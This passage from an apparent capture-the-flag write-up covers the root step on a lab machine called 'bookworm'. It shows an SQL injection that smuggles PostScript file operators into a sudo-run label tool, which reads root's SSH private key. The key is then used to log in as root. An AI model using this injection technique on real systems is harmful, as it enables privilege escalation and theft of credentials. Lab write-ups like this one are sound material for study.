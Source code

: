 Then I can SSH in as root:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@bookworm.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)
...[snip]...
root@bookworm:~#

```

And read the flag:

```

root@bookworm:~# cat root.txt
aab5a8b7************************

```

#### Via Read

One way to get a shell via read is to read the SSH key of root. Each user so far has has a `id_eh25519` file in their `.ssh` directory. I’ll try to read roots:

```

neil@bookworm:~$ sudo genlabel '99999 UNION SELECT "0xdf)
>                                                                     
> /inputfile (/root/.ssh/id_ed25519) (r) file def
> inputfile 1000 string readstring
>                                                            
> pop                                 
> inputfile closefile                 
>                                                                     
> /outfile (output.txt) (w) file def
> outfile exch  writestring  
> outfile closefile        
>                                                                     
> (test", 2,3,4,5,6,7'      
Fetching order...           
Generating PostScript file... 
Generating PDF (until the printer gets fixed...)
Documents available in /tmp/tmpv5gne53tprintgen

```

The private key is in `output.txt`:

```

neil@bookworm:~$ cat output.txt
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
...[snip]...
-----END OPENSSH PRIVATE KEY-----

```
